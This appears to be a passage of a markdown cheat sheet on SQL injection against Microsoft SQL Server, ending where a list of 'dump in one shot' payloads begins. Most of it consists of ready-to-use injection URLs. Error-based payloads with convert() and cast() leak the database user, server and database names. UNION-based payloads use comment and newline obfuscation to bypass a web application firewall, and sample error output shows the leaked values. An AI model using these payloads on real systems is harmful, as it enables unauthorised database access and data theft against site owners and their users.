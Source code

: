 ```http://domain.com/index.php?id=1```  

```http://domain.com/index.php?id=1'and 1=convert(int,user_name())--```  
```http://domain.com/index.php?id=1'and 1=cast(user_name as int)-- -```  
Both payloads will return the same error, with the version output.  
>Error: Warning: mssql_query() message: Conversion failed when converting the nvarchar value '**admin_user**' to data type int. (severity 16) in D:\something\web\STD\...\id.php on line...

```http://domain.com/index.php?id=1'and 1=convert(int,@@SERVERNAME())--```  
```http://domain.com/index.php?id=1'and 1=cast(@@SERVERNAME as int)-- -```  
Both payloads will return the same error, with the server name output.  
>Error: Warning: mssql_query() message: Conversion failed when converting the nvarchar value '**SERVER_NAME_HERE**' to data type int. (severity 16) in D:\something\web\STD\...\id.php on line...

```http://domain.com/index.php?id=1'and 1=convert(int,db_name())--```  
```http://domain.com/index.php?id=1'and 1=cast(db_name() as int)-- -```  
Both payloads will return the same error, with the database name output.  
>Error: Warning: mssql_query() message: Conversion failed when converting the nvarchar value '**store_database**' to data type int. (severity 16) in D:\something\web\STD\...\id.php on line...

## Dumping database (UNION based query)

Use the union query which worked, in this case I bypassed WAF and found that the 3rd column is vulnerable with payload:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -```  

Becasue of the 3rd column, replace number **3** with the following payloads to retrieve informations:

```
@@version  
db_name()  
user_name()
```

Example:  
Retrieve database version:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,@@version,4-- -```  
Look at the error message, the version will be displayed there.  

Retrieve database name:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,db_name(),4-- -```  
Look at the error message, the database name will be displayed there.  

Retrieve username of database:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,user_name(),4-- -```  
Look at the error message, the database username will be displayed there.  

## Dumping database with DIOS

#### What is DIOS?

DIOS (dump in one shot), is a long crafted payload which will dump database(), tables() and columns() and will display it in the website.  

- Here is a list of MSSQL DIOS payloads:

```